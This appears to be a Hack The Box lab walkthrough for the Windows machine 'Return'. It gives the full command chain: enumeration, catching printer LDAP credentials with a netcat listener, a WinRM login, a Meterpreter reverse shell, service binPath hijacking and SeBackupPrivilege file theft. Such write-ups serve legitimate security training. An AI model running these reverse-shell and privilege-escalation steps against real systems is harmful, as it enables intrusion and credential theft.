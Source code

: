 # Return HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Return-green?logo=hackthebox)](https://app.hackthebox.com/machines/401)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

**Return** is an easy-level Windows machine on Hack The Box focused on exploiting network printer misconfigurations and abusing Windows privilege escalation techniques. The box demonstrates enumeration of Windows shares and services, credential capture via a network printer, WinRM initial foothold, privilege escalation using the Server Operators group, and finally leveraging SeBackupPrivilege to access the Administrator's desktop.

---

## Table of Contents

- [Scan and Enumeration](#scan-and-enumeration)
- [SMB and Service Discovery](#smb-and-service-discovery)
- [Abusing Printer Panel and Capturing Credentials](#abusing-printer-panel-and-capturing-credentials)
- [Initial Foothold via WinRM](#initial-foothold-via-winrm)
- [Privilege Escalation](#privilege-escalation)
- [Post Exploitation and Flag Capture](#post-exploitation-and-flag-capture)
- [Stepwise PoC](#stepwise-poc)
- [Tools Used](#tools-used)
- [Technical Notes](#technical-notes)

---

## Scan and Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.241 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.129.95.241
```
- Scans all TCP ports, extracts open ports, and performs banner and script scanning on the detected ports.

---

## SMB and Service Discovery

```
enum4linux-ng -A 10.129.95.241
smbclient -L //10.129.95.241/
```
- Enumerates users, shares, domains, and more.
- Lists all available SMB shares.

---

## Abusing Printer Panel and Capturing Credentials

`nc -lvnp 389`
- Listens for LDAP connections, capturing cleartext credentials when configured in the Printer Admin Panel.

*Captured Credential:*
```
Username: svc-printer
Password: 1edFg43012!!
```

---

## Initial Foothold via WinRM

`evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'`
- Authenticates and spawns a WinRM shell as the captured domain user.

`net user svc-printer`
- Checks group memberships and privileges of the obtained account.

`services`
- Lists running services.

---

## Privilege Escalation

*Generate and transfer Meterpreter payload:*
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.129.95.241 LPORT=1447 -f exe > shell.exe
upload shell.exe
```

*Start Metasploit Handler:*
```

*Start Metasploit Handler:*

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.48
set LPORT 1447
run
```

*Abuse Service to Execute Payload:*
```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\shell.exe"
sc.exe stop VMTools
sc.exe start VMTools
```

- Modifies the VMTools service to run the shell and triggers Meterpreter.
- If session is unstable, re-run or try different services.

---

## Post Exploitation and Flag Capture

*Check Available Privileges:*
`whoami /priv`

*Abuse SeBackupPrivilege to Access Administrator Files:*
```
mkdir C:\temp\creds
robocopy /b C:\Users\Administrator\Desktop C:\temp\creds
cat C:\creds\root.txt
```
- Leverages backup privileges to copy inaccessible files and finally retrieves the root flag.

---

## Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1513" height="847" alt="19" src="https://github.com/user-attachments/assets/fdda1804-15a1-4050-8963-0c08deba4fcd" />
<img width="1054" height="320" alt="18" src="https://github.com/user-attachments/assets/a7373ea4-355d-4286-bf15-dc2909d198aa" />
<img width="685" height="810" alt="17" src="https://github.com/user-attachments/assets/833cb303-babc-4e7e-9aba-094a4b027f60" />
<img width="765" height="841" alt="16" src="https://github.com/user-attachments/assets/03b4451b-0878-4acf-83ec-94be7e246f70" />
<img width="1197" height="656" alt="15" src="https://github.com/user-attachments/assets/de284b53-1ab5-4fb6-8703-ada562045f81" />
<img width="764" height="123" alt="14" src="https://github.com/user-attachments/assets/87ff5172-6424-41db-b22f-eded61b77567" />
<img width="1189" height="606" alt="13" src="https://github.com/user-attachments/assets/cbf57109-09d2-4b23-9d0e-6904e6e01643" />
<img width="817" height="203" alt="12" src="https://github.com/user-attachments/assets/b452b7a1-d761-496a-aff4-e3bef5496b95" />
<img width="863" height="249" alt="11" src="https://github.com/user-attachments/assets/2f12183c-4339-4ae9-a3fa-a20f4304d712" />
<img width="895" height="793" alt="10" src="https://github.com/user-attachments/assets/633effd2-6b5a-44e8-a7f2-26bdd6b2e1b2" />
<img width="1743" height="466" alt="9" src="https://github.com/user-attachments/assets/10bb85f3-4005-4d9e-aadb-044381af6ebe" />
<img width="961" height="282" alt="8" src="https://github.com/user-attachments/assets/5ce92af7-e915-449f-b075-26cdf7a5429e" />
<img width="862" height="268" alt="7" src="https://github.com/user-attachments/assets/2a0147e9-215d-40e5-8529-0aca42092e2c" />
<img width="1455" height="74" alt="6" src="https://github.com/user-attachments/assets/2386d468-ecf6-439f-a3ac-c63f0e18c956" />
<img width="828" height="291" alt="5" src="https://github.com/user-attachments/assets/ed540559-df53-4b82-b52e-75d02ae32e15" />
<img width="894" height="549" alt="4" src="https://github.com/user-attachments/assets/acbdbd9f-bd1a-44a4-a57e-882873ea1fba" />
<img width="828" height="299" alt="3" src="https://github.com/user-attachments/assets/06ff13d4-6c46-41e4-9c60-fc1ed00bae5d" />
<img width="1245" height="669" alt="2" src="https://github.com/user-attachments/assets/53d8366a-ef25-4cde-90fb-642dacd94d1f" />
<img width="908" height="77" alt="1" src="https://github.com/user-attachments/assets/bf489527-8021-4ede-ab26-01028dadcf8f" />

</details>

---

## Tools Used

- **nmap** – Port scanning and service detection
- **enum4linux-ng** – Windows and Samba enumeration
- **smbclient** – SMB share listing
- **nc (netcat)** – Listener for credentials
- **evil-winrm** – WinRM shell for Windows boxes
- **msfvenom/msfconsole** – Metasploit payload creation and handler
- **robocopy** – Copying as backup operator
- **sc.exe** – Windows Service Controller utility

---

## Technical Notes

- **Server Operators Group**: Members can control and reconfigure system services, often leading to privilege escalation if misconfigured.
- **SeBackupPrivilege**: Allows reading almost any file on the system by using tools like robocopy with the `/b` (backup) flag.
- **Service Abuse**: Overwriting the binPath of an enabled service lets you trigger arbitrary code as SYSTEM.

---

